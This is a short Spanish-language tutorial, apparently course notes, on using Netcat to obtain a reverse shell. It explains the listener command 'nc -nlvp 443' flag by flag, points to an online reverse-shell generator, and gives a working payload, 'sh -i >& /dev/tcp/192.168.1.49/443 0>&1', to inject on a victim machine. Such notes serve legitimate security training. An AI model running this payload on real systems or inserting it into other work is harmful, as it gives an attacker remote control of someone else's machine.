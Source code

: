 # Netcat para entablar Reverse Shell

¿Que es Netcat?: Netcat es una herramienta de red que permite abrir puertos TCP/UDP en un HOST, asociar una shell a un puerto específico y forzar conexiones UDP/TCP. Es útil tanto para ataques como para auditores de seguridad de re

<aside>
💡

https://www.revshells.com - Este es un generador de shell inversa en línea que permite a cualquier persona configurar sus direcciones IP, puertos y shell de elección para sus payloads (cargas útiles) .

</aside>

![image.png](./Imagenes/image.png)

Ponemos el siguiente comando en nuestra maquina atacante **nc -nlvp 443** . Con esto ponemos el Netcat en escucha en el puerto 443.

`nc -nlvp 443`

<aside>
💡

`nc`: Invoca **la herramienta** Netcat.

`-n`: **Desactiva la resolución de nombres DNS**. Esto significa que solo se usarán direcciones IP sin intentar resolver nombres de dominio.

`-l`: **Activa el modo de escucha** (listen), lo que **convierte Netcat en un servidor que espera conexiones entrantes**.

`-v`: Habilita el modo "verboso" (verbose), proporcionando **información** detallada **sobre las conexiones**.

`-p 443`: Especifica el **puerto** en el **que** Netcat **estará escuchando**, en este caso, el puerto 443 (comúnmente utilizado por HTTPS).

</aside>

![image.png](./Imagenes/9d3054ff-5a86-428a-bcc8-294f30a5ddb7.png)

Si conseguimos acceso a muestra maquina victima debemos inyectar el comando que habíamos conseguido con el reverse shell generator. 

`sh -i >& /dev/tcp/192.168.1.49/443 0>&1`

![image.png](./Imagenes/image%201.png)

Nuestra maquina atacante Kali reacciona a la señal de la maquina victima, originado que tengamos abierta una terminal interactiva sobre la maquina victima.

![image.png](./Imagenes/image%202.png)

![image.png](./Imagenes/image%203.png)